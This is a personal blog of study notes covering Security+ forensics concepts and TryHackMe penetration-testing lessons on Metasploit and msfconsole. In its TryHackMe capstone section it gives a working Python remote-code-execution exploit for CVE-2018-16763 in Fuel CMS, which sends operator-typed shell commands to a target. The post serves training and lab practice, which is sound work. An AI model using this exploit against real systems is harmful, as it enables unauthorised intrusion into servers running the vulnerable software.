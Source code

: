 # ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester

## ITPro.TV: CompTIA Security+ (SY0-601)

### Digital Forensics Concepts

Order of volatility:

* CPU cache & registers (good luck!)
* Routing tables, process tables, ARP cache, kernel stats
* (Non-Kernel) RAM
* Swap, /tmp, etc.
* Storage, VM snapshots
* Archival data, backups, logs, print-outs

Preservation and documentation notes:

* Timestamp everything
* Note timezone differences
* Written reports and logs (also use these to establish the chain of custody)
* Witness testimony
* Use file hashes

Chain of custody is often represented as a simple paper log/form.

Tools of the trade:

* FTK Imager
* WinHex
* Autopsy
* EnCase Forensic
* `dd`

## TryHackMe: Jr. Penetration Tester

### Vulnerability Capstone

I couldn’t get any of the exploits from Exploit DB to work for me, so I wound up doing a web search that landed me on a write-up for this room in GitHub; the provided exploit code is a little rough, but can be cleaned up to produce nice output without too much work:

```python
#!/usr/bin/python3

# Derived from https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763/blob/main/rce.py

import argparse
import requests
from sys import exit
from bs4 import BeautifulSoup
from socket import error

delimeter1 = '<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">'
delimeter2 = '</div>'

def exploit():
	while True:
		try:
			payload = input("\n[+] OS Command: ")
			response = requests.get(f"{args.URL}/fuel/pages/select/?filter='%2Bpi(%24a%3D('system'))%2B%24a('{payload}')%2B'")
			htmlText = str(BeautifulSoup(response.text,'html.parser'))
			array1 = htmlText.split(delimeter1)
			array2 = array1[1].split(delimeter2)
			print('\n' + array2[-1].replace('\n\n',''))

		except error:
			exit('\n[-] Could Not Connect To Server')

if __name__ == '__main__':

	mainArguments = argparse.ArgumentParser()
	mainArguments.add_argument('URL',help='Target Website Hosting Vulnerable CMS',type=str)
	args = mainArguments.parse_args()

	try:
		exploit()
	except KeyboardInterrupt:
		exit('\n[!] Quitting')
```

* [THM-Vulnerability_Capstone-CVE-2018-16763](https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763)
* [THM-Vulnerability_Capstone-CVE-2018-16763 / rce.py](https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763/blob/main/rce.py)
* [Python String split() Method](https://www.w3schools.com/python/ref_string_split.asp)
* [Replace all newline characters using python](https://stackoverflow.com/questions/54760850/replace-all-newline-characters-using-python)

### Main Components of Metasploit

Module categories:

* Auxiliary (odds-n-ends)
* Encoders (re-encode exploits to thwart signature-based anti-malware solutions)
* Evasion (attempt to directly evade anti-malware solutions)
* Exploits
* NOPS (no-op code that can be used to pad exploits to a needed size)
* Payloads (what you want to run if the exploit is successful; often, but not always, some kind of shell)
* Post (additional post-exploitation tools)

Payloads, in turn, can be divided into:

* Singles (self-contained; also indicated by the use of an `_` separating “shell” from the rest of the payload name, as in `shell_reverse_tcp`)
* Stagers (small applications that establish a connection back to the attacker to download a larger, more complex payload)
* Stages (payloads designed to be downloaded by a stager; also indicated by the use of a `/` separating “shell” from the rest of the payload name, as in `shell/reverse_tcp`)

### Msfconsole

You can use msfconsole as a shell, but there’s no redirect functionality.

Use `history` to display a command history.

All settings are scoped to the current module unless explicitly scoped globally (`set -g`).

The `show` command can be used with any module type to list modules of that type, though Metasploit is a bit inconsistent about whether the type should be plural or not (`show auxiliary` vs. `show exploits`). When used in the context of a module, this usage of `show` will attempt to filter additional modules in a sensible way; for example, in the context of a Windows exploit, only Windows-based payloads will be shown.

The `back` command leaves the context of the current module.

Use `info` to get module information (which is not generally the same as “help”, though it often does contain useful informaiton).

We can limit the `search` query to a particular type of module using the `type:` parameter (e.g., `search type:exploit wordpress`).

### Working with Modules

The common `RHOSTS` modul option accepts IP addresses, ranges, CIDR networks, and even a file with one target per line (specify as `file:/path/to/file.txt`).

Note that the `PAYLOAD` and `SESSION` parameters are not generally listed by `show options`, but can still be set if desired.

You can reset individual parameters using `unset`, and reset the entire module using `unset all`.

* `set -g` = `setg`
* `unset -g` = `unsetg`
* `run` = `exploit`

Some exploit modules have a `check` option which attempts to determine if a target is vulnerable without actually exploiting it. Alternately, other modules have a paired auxiliary scanner. Many *don’t* have a check at all. YMMV!

Meterpreter sessions can be backgrounded using the `background` command, and all sessions can be backgrounded using `CTRL + Z`. List sessions using the `sessions` command, and foreground a session using `session -i #`, where `#` is the session number.

<!--

### Introduction to Metasploit Summary

==xxx==

### Introduction to Exploitation with Metasploit

==xxx==

### Scanning

==xxx==

### The Metasploit Database

==xxx==

### Vulnerability Scanning

==xxx==

### Exploitation

==xxx==

### Msfvenom

==xxx==

### Exploitation with Metasploit Summary

==xxx==

### Introduction to Meterpreter

==xxx==

### Meterpreter Flavors

==xxx==

### Meterpreter Commands

==xxx==

### Post-Exploitation with Meterpreter

==xxx==

### Post-Exploitation Challenge

==xxx==

### Introduction to Linux PrivEsc

==xxx==

### What is Privilege Escalation?

==xxx==

### Enumeration

==xxx==

### Automated Enumeration Tools

==xxx==

### Kernel Exploits

==xxx==

### Sudo

==xxx==

### SUID

==xxx==

### Capabilities

==xxx==

### Cron Jobs

==xxx==

### PATH

==xxx==

### NFS

==xxx==

### Linux PrivEsc Capstone Challenge

==xxx==

### Introduction to Windows PrivEsc

==xxx==

### Information Gathering

==xxx==

### Tools of the Trade

==xxx==

### Vulnerable Software

==xxx==

### DLL Hijacking

==xxx==

### Unquoted Service Path

==xxx==

### Token Impersonation

==xxx==

### Quick Wins

==xxx==

-->

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> April 13, 2022
